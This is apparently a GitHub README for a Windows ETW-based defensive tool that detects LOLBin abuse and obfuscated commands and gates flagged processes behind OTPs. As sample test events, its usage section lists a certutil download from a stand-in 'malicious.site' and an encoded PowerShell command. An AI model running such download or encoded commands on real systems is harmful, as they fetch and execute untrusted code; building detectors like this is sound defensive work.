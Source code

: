 # Usermode Application LOLBin Interceptor

## Overview
This project is a real-time security system for Windows that monitors process creation events, detects suspicious or malicious activity (such as LOLBin abuse, Volt Typhoon TTPs, and obfuscated commands), and enforces user or administrator validation via OTPs. It combines C++ (for ETW monitoring and process control) and Python (for advanced pattern-based detection).

---

## Architecture

### Main Components
- **C++ ETW Monitor (`usermodeapplicationlol.cpp`)**: Monitors process creation, checks for suspicious activity, and enforces OTP validation or process termination.
- **Python Analyzer (`analyze.py` + `detection/`)**: Analyzes process details for known malicious patterns, obfuscation, and advanced threat behaviors.
- **OTP Verification (`otpverify.exe`)**: Validates user/admin OTPs for process override.
- **Logging**: All actions and events are logged for auditing.

### Process & Dataflow Diagram
```mermaid
flowchart TD
    A["Process Creation (ETW Event)"] --> B{"Is LOLBin or Suspicious?"}
    B -- "No" --> C["Allow Process"]
    B -- "Yes" --> D["Call analyze.py"]
    D --> E{"Malicious?"}
    E -- "No" --> F["Resume/Allow Process"]
    E -- "Yes" --> G{"Is Admin?"}
    G -- "No" --> H["Terminate Process"]
    G -- "Yes" --> I["Prompt for 2 Admin OTPs"]
    I --> J{"Both OTPs Correct?"}
    J -- "Yes" --> F
    J -- "No" --> H
    %% Dataflow overlays
    A -.->|"Process Info"| D
    D -.->|"Exit Code"| E
    I -.->|"OTP"| J
```

---

## Features
- **Real-time process monitoring** using ETW.
- **LOLBins detection** (hardcoded list and pattern-based).
- **Volt Typhoon TTP detection** (pattern-based).
- **Obfuscation detection** (flags any obfuscated command as malicious).
- **OTP challenge** for suspicious/malicious processes.
- **Admin override**: Two distinct OTPs required for admin to allow a malicious process.
- **Comprehensive logging** for all events and actions.

---

## Setup & Build

### Prerequisites
- Windows 10/11 (Administrator privileges required)
- Visual Studio (for building C++ projects)
- Python 3.x (in PATH)

### Build Steps
1. Open `usermodeapplicationlol.sln` in Visual Studio.
2. Build both `usermodeapplicationlol` and `otpverify` projects.
3. Ensure `usermodeapplicationlol.exe` and `otpverify.exe` are in the same directory (or in PATH).
4. Ensure the following Python files are present:
    - `analyze.py`
    - `detection/lolbin_pattern_detector.py`
    - `detection/volt_typhoon_detector.py`
    - `lolbin_detector.py`

---

## Usage

### 1. Start the Monitor
Run as Administrator:
```sh
usermodeapplicationlol.exe
```

### 2. Generate Test Events
Open another terminal and run commands such as:
- `cmd.exe /c whoami`
- `powershell.exe -encodedcommand SQBtAG...`
- `certutil.exe -urlcache -split -f http://malicious.site file.exe`
- `notepad.exe` (should not be flagged)

### 3. Observe
- Suspicious/malicious processes are suspended and prompt for OTP.
- Admin override requires two distinct OTPs.
- All actions are logged in `log_all.txt`, `log_otp_correct_malicious.txt`, and `log_otp_incorrect.txt`.

---

## Testing
- Test with known LOLBins and obfuscated commands.
- Test benign processes to ensure they are not challenged.
- Review log files for detection and enforcement actions.

---

## Extending Detection
- Add new patterns to `lolbin_detector.py` and `volt_typhoon_detector.py` for emerging threats.
- Enhance obfuscation detection in `analyze.py` as needed.

---

## Security Notes
- Any obfuscated command is treated as malicious by default.
- Only administrators can override malicious verdicts, and only with two distinct OTPs.
- All process actions are logged for audit and review.

---

## ETW Trace Buffer Limitation

This system relies on ETW (Event Tracing for Windows) to monitor process creation events in real time. **If the ETW trace buffer becomes full (due to high event volume or slow processing), some events may be lost.** This can result in missed detections and enforcement actions.

### Impact
- Malicious or suspicious processes may not be detected if their creation events are dropped.
- The system may not be able to enforce OTP challenges or process termination for missed events.

### Mitigation Strategies
- **Increase ETW buffer size and count:** Configure larger and more buffers in the code to reduce the chance of overflow.
- **Optimize event processing:** Make the ETW callback as fast as possible; offload heavy work to worker threads.
- **Monitor for lost events:** Subscribe to ETW lost event notifications and log warnings if events are dropped.
- **Filter unnecessary events:** Only monitor the providers and event types you need.

For high-assurance environments, consider a kernel-mode driver for process monitoring, which does not suffer from ETW buffer overflow issues.

---

## License
This project is for educational and research purposes. Use responsibly. 